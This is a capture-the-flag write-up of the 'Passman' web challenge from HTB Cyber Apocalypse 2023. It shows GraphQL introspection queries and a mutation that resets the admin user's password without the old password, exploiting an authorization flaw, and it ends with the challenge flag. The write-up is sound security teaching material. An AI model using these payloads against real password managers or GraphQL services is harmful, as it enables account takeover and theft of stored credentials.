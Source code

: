 # web/Passman

### Description
> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?

After opening website we see login page:
![passman1](/2023/Cyber_Apocalypse/web/images/passman1.png)

From it we can go to register, when trying to create admin account it gives SQL error that it already exists:
![passman2](/2023/Cyber_Apocalypse/web/images/passman2.png)

So let's create user account and login into it
After login we can see dashboard with password records which we can create

In `/static/js/app.js` we can see than records received through **GraphQL**:

```
const loadPasswords = async () => {

    await fetch(`/graphql`, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
               query: '{ getPhraseList { id, owner, type, address, username, password, note } }'
           }),
       })
        .then((response) => response.json())
        .then((response) => {
           if (response.data.getPhraseList && response.data.getPhraseList.length != 0) {
               populateTable(response.data.getPhraseList)
           }
       })
        .catch((error) => console.log(error));
}
```
And query is sent as parameter by user so it's changeable 

To get info about GraphQL structure we can make this query: 
`{"query":"{__schema{types{name,fields{name}}}}"}`

From it we can see all possible mutations. 
`{"name":"Mutation","fields":[{"name":"RegisterUser"},{"name":"LoginUser"},{"name":"UpdatePassword"},{"name":"AddPhrase"}]},`

UpdatePassword looks interesting, let's check it in detail:
`{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}`
Gives us 
`{"name":"UpdatePassword","args":[{"name":"username","description":null,"type":{"name":null,"kind":"NON_NULL","ofType":{"name":"String","kind":"SCALAR"}}},{"name":"password","description":null,"type":{"name":null,"kind":"NON_NULL","ofType":{"name":"String","kind":"SCALAR"}}}`

It doesn't require old password so we can change admin's password (don't forget cookie)

`{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"1111"}}`

![passman3](/2023/Cyber_Apocalypse/web/images/passman3.png)

And we got the flag

![passman4](/2023/Cyber_Apocalypse/web/images/passman4.png)

*HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}*

